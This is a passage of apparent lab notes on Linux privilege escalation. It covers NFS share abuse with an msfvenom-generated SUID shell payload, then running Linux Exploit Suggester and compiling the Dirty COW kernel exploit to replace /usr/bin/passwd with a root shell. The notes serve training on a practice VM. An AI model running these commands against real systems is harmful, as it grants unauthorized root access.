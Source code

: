mkdir /tmp/nfs
mount -o rw,vers=2 10.10.10.10:/tmp /tmp/nfs

Still using Kali's root user, generate a payload using msfvenom and save it to the mounted share (this payload simply calls /bin/bash):

msfvenom -p linux/x86/exec CMD="/bin/bash -p" -f elf -o /tmp/nfs/shell.elf

Still using Kali's root user, make the file executable and set the SUID permission:

chmod +xs /tmp/nfs/shell.elf

Back on the Debian VM, as the low privileged user account, execute the file to gain a root shell:

/tmp/shell.elf

### kernel exploits
Kernel exploits can leave the system in an unstable state, which is why you should only run them as a last resort.

Run the Linux Exploit Suggester 2 tool to identify potential kernel exploits on the current system:

perl /home/user/tools/kernel-exploits/linux-exploit-suggester-2/linux-exploit-suggester-2.pl

The popular Linux kernel exploit "Dirty COW" should be listed. Exploit code for Dirty COW can be found at /home/user/tools/kernel-exploits/dirtycow/c0w.c. It replaces the SUID file /usr/bin/passwd with one that spawns a shell (a backup of /usr/bin/passwd is made at /tmp/bak).

Compile the code and run it (note that it may take several minutes to complete):

gcc -pthread /home/user/tools/kernel-exploits/dirtycow/c0w.c -o c0w
./c0w

Once the exploit completes, run /usr/bin/passwd to gain a root shell:

/usr/bin/passwd

Remember to restore the original /usr/bin/passwd file and exit the root shell before continuing!

mv /tmp/bak /usr/bin/passwd
exit

### priv esc scripts
- serach on net 
